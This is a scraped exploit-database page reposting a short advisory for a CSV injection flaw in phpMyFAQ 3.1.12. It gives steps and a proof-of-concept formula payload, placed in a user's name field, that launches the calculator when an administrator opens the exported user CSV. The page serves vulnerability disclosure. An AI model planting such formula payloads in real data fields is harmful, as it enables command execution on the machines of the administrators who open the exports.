 ```yaml
---
title: phpMyFAQ 3.1.12 CSV Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172097&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-04
fetch_date: 2025-10-04T11:39:18.472033
---
```


# phpMyFAQ 3.1.12 CSV Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for phpMyFAQ 3.1.12 CSV Injection

2023-05-03 | CVSS 6.9

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172097
Exploit Title: phpMyFAQ v3.1.12 - CSV Injection
Application: phpMyFAQ
Version: 3.1.12
Bugs: CSV Injection
Technology: PHP
Vendor URL: https://www.phpmyfaq.de/
Software Link: https://download.phpmyfaq.de/phpMyFAQ-3.1.12.zip
Date of found: 21.04.2023
Author: Mirabbas Ağalarov
Tested on: Windows

2. Technical Details & POC
========================================
Step 1. login as user
step 2. Go to user control panel and change name as =calc|a!z| and save
step 3. If admin Export users as CSV ,in The computer of admin occurs csv injection and will open calculator

payload: calc|a!z|
Poc video: https://youtu.be/lXwaexX-1uU
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)